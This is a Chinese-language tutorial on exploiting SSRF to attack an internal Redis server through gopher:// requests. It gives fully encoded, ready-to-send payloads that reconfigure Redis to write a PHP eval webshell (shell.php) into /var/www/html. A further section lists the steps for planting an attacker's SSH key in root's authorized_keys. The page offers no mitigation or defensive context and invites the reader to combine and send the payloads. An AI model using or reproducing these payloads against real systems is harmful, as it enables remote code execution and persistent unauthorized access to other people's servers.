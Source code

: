 ### SSRF 如何攻击内网服务

**1. 判断内网Redis端口是否开放**

首先，我们需要确认目标服务器的内网中是否存在 Redis 服务，以及它监听的端口。Redis 的默认端口是 **6379**

我们可以使用 SSRF 漏洞，尝试向 `http://127.0.0.1:6379/` 发起请求。如果请求有响应或返回连接成功的提示，那么Redis 服务可能存在

**2. 构造Redis命令**

Redis的通信协议（RESP，Redis Serialization Protocol）是一种基于TCP的文本协议。攻击者需要将Redis命令转换为符合该协议的格式

例如，一个简单的`INFO`命令的RESP格式如下：

```
*1
$4
INFO
```

- **`\*1`**：表示这是一个包含 1 个命令参数的数组
- **`$4`**：表示接下来的参数有 4 个字节
- **`INFO`**：参数的具体内容

在 Gopher 协议中，换行符需要转换为 URL 编码，即`%0D%0A`（回车换行）。因此，上述命令转换为 Gopher 协议的 URL编码后是： `gopher://127.0.0.1:6379/_*1%0D%0A$4%0D%0AINFO%0D%0A`

**3. 写入WebShell**

这是最常见的攻击方式，尤其是在目标服务器是 Web 服务器的情况下。攻击者可以利用 Redis 的持久化功能，将WebShell 代码写入到服务器的网站根目录，从而获得服务器的控制权

**攻击思路：**

1. **设置 Redis 的 `dir` 和 `dbfilename`**：将 Redis 的持久化目录设置为网站根目录，将持久化文件名设置为一个WebShell 文件名（如 `shell.php`）。
2. **写入 WebShell 代码**：利用 Redis 的 `SET` 命令，将 WebShell 代码写入一个键中
3. **执行 `SAVE` 或 `BGSAVE`**：执行 `SAVE` 命令将数据保存到指定的 WebShell 文件中

**Gopher Payload 构造举例（以写入PHP一句话木马为例）：**

**PHP 一句话木马代码：** `<?php eval($_POST[cmd]);?>`

1. **设置文件目录**：`config set dir /var/www/html/` **Gopher Payload:** `gopher://127.0.0.1:6379/_*4%0D%0A$6%0D%0Aconfig%0D%0A$3%0D%0Aset%0D%0A$3%0D%0Adir%0D%0A$14%0D%0A/var/www/html/%0D%0A`
2. **设置文件名**：`config set dbfilename shell.php` **Gopher Payload:** `gopher://127.0.0.1:6379/_*4%0D%0A$6%0D%0Aconfig%0D%0A$3%0D%0Aset%0D%0A$10%0D%0Adbfilename%0D%0A$9%0D%0Ashell.php%0D%0A`
3. **设置键值**：`set 1 '<?php eval($_POST[cmd]);?>'` **Gopher Payload:** `gopher://127.0.0.1:6379/_*3%0D%0A$3%0D%0Aset%0D%0A$1%0D%0A1%0D%0A$27%0D%0A%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%63%6d%64%5d%29%3b%3f%3e%0D%0A`
4. **执行保存**：`save` **Gopher Payload:** `gopher://127.0.0.1:6379/_*1%0D%0A$4%0D%0Asave%0D%0A`

你可以将上述 Payload 组合起来，并进行 URL 编码，通过 SSRF 漏洞一次性发送

**4. 写入 SSH 公钥**

如果 Redis 服务是以 root 权限运行，并且目标服务器开放了 SSH 服务，攻击者还可以通过 Redis 将 SSH 公钥写入 root 用户的 `.ssh/authorized_keys` 文件，从而实现 SSH 免密登录

**Gopher Payload 构造举例：**

1. 设置文件目录：`config set dir /root/.ssh/`
2. 设置文件名：`config set dbfilename authorized_keys`
3. 写入SSH公钥：`set 1 'ssh-rsa AAAA...your-pubkey...'`
4. 执行保存：`save`